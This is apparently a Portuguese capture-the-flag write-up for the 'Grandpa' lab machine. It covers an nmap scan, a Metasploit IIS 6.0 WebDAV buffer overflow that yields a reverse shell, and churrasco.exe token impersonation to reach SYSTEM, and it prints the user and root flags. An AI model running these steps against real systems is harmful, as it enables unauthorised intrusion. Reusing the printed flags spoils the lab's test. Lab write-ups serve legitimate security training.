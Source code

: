 # Writeup grandpa

## Scan

```
# Nmap 7.92 scan initiated Sun Jan 23 17:59:02 2022 as: nmap -sV --open -Pn -v -T5 -p- -oN fullnamp.txt 10.129.95.233
Nmap scan report for 10.129.95.233
Host is up (0.15s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 23 18:02:50 2022 -- 1 IP address (1 host up) scanned in 228.46 seconds
```

## Enumeration

Após vermos a versão do IIS, conseguimos descobrir que ele possui uma vulnerabilidade de buffer overflow e que possui exploit no msfconsole.

## Exploitation

Ao explorar a vulnerabilidade com o seguinte exploit, será possível ter acesso ao shell:

```
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhost 10.129.95.233
rhost => 10.129.95.233
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost tun1
lhost => tun1
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

Para pegarmos a user flag precisaremos de root

## Privilege Escalation

Para fazermos o privilege escalation, podemos usar impersonate attack.

```

C:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Já que o host é um server mais antigo, precisaremos usar o churrasco ao invés do printspoofer.

```
c:\temp>churrasco.exe
churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\TEMP

c:\temp>churrasco -d "cmd.exe"
churrasco -d "cmd.exe"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\temp>whoami
whoami
nt authority\system
```

**User flag:**

```
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
```

**Root flag:**

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```


